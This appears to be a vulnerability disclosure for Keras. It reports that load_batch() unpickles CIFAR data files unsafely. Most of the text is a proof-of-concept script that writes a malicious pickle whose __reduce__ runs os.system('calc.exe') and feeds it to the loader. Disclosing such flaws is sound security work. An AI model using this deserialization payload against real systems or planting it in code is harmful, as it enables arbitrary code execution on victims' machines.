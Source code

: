 # Description

`Keras` is an API designed for human beings, not machines. Keras follows best practices for reducing cognitive load: it offers consistent & simple APIs, it minimizes the number of user actions required for common use cases, and it provides clear & actionable error messages. This package is vulnerable to `Arbitrary Code Execution`.

# Vulnerability

`load_batch()` is a function used for parsing `CIFAR` data by unpickling it. But the lack of restriction in input allows attacker constructed files to be unpickled.

# Proof of Concept

# Installation
```bash
git clone https://github.com/keras-team/keras
cd keras/keras
```

# Run exploit.py
```python
#!/usr/bin/env python3

import pickle
import os
from datasets import cifar

class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('calc.exe', ))

payload = pickle.dumps(EvilPickle())

with open('payload', 'wb') as f:
    f.write(payload)

cifar.load_batch('payload')
```
